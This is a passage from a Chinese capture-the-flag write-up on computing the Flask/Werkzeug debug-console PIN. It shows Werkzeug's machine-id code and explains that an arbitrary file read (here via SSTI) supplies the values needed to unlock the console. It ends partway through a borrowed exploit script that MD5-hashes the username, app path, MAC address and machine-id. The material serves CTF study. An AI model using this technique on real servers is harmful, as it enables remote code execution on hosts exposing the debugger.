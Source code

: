 > 
>         # On Windows, use winreg to get the machine guid.
>         if sys.platform == "win32":
>             import winreg
> 
>             try:
>                 with winreg.OpenKey(
>                     winreg.HKEY_LOCAL_MACHINE,
>                     "SOFTWARE\\Microsoft\\Cryptography",
>                     0,
>                     winreg.KEY_READ | winreg.KEY_WOW64_64KEY,
>                 ) as rk:
>                     guid: t.Union[str, bytes]
>                     guid_type: int
>                     guid, guid_type = winreg.QueryValueEx(rk, "MachineGuid")
> 
>                     if guid_type == winreg.REG_SZ:
>                         return guid.encode("utf-8")
> 
>                     return guid
>             except OSError:
>                 pass
> 
>         return None
> 
>     _machine_id = _generate()
>     return _machine_id
> ```
>
> 基本逻辑就是：**首先尝试读取`/etc/machine-id`或者 `/proc/sys/kernel/random/boot_i`中的值，若有就直接返回
> 假如是在win平台下读取不到上面两个文件，就去获取注册表中`SOFTWARE\\Microsoft\\Cryptography`的值，并返回**
>
> 那么算PIN的所有步骤都结束了，看到这么多值可能会觉得得到这些值也十分困难，但其实 **- -**
> 只需要有一个**任意文件读取**就可以获得这些值啦
> 然后你就可以直接控制靶机啦
>
> <font color='pink'>**~❀完结撒花❀~**</font>

#### 回到题目

我将只用读取文件的SSTI来算出PIN
因为环境原因，我的exp显然是不能算出python2.7 flask版本十分落后的PIN的

借用一下exp

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
    '274973438824773',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'f855a4d03e8442aa92d2813dfc0bf8c3'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
```
